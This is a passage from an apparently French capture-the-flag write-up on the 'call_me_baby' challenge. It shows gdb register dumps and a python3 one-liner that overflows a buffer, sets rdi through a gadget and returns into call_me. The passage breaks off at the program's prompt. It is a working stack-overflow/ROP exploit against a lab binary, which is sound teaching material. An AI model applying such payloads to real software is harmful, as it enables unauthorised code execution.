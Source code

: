 ```gdb
rip            0x401166            0x401166 <gadgets>
eflags         0x203               [ cf if ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) c
continuing.

breakpoint 5, 0x000000000040116b in gadgets ()
(gdb) i r
rax            0x51                81
rbx            0x7fffffffdb38      140737488345912
rcx            0x7ffff7ec0a5d      140737352829533
rdx            0x64                100
rsi            0x7fffffffd9c0      140737488345536
rdi            0x79626162          2036490594
rbp            0x7fffffffda08      0x7fffffffda08
rsp            0x7fffffffda10      0x7fffffffda10
r8             0x0                 0
r9             0x7ffff7fcfb10      140737353939728
r10            0x7ffff7dd8b08      140737351879432
r11            0x246               582
r12            0x0                 0
r13            0x7fffffffdb48      140737488345928
r14            0x403df0            4210160
r15            0x7ffff7ffd000      140737354125312
rip            0x40116b            0x40116b <gadgets+5>
eflags         0x203               [ cf if ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```

On voit dans le registre que le rdi est bien modifié.  
  
Il faut maintenant ajouter un pointeur vers la fonction call_me pour qu'elle s'execute après gadgets :

```gdb
(gdb) i func call_me
all functions matching regular expression "call_me":

non-debugging symbols:
0x000000000040118a  call_me
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x62\x61\x62\x79"+b"\x00"*4+b"\x66\x11\x40\x00"+b"\x00"*4+b"\x8a\x11\x40\x00"+b"\x00"*4)')
the program being debugged has been started already.
start it from the beginning? (y or n) y
starting program: /home/coucou/documents/ctf_ssi_2024/call_me_baby/call_me_baby <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x62\x61\x62\x79"+b"\x00"*4+b"\x66\x11\x40\x00"+b"\x00"*4+b"\x8a\x11\x40\x00"+b"\x00"*4)')
[thread debugging using libthread_db enabled]
using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

breakpoint 1, 0x00000000004011dd in vuln ()
(gdb) c
continuing.
write your love letter: 
```
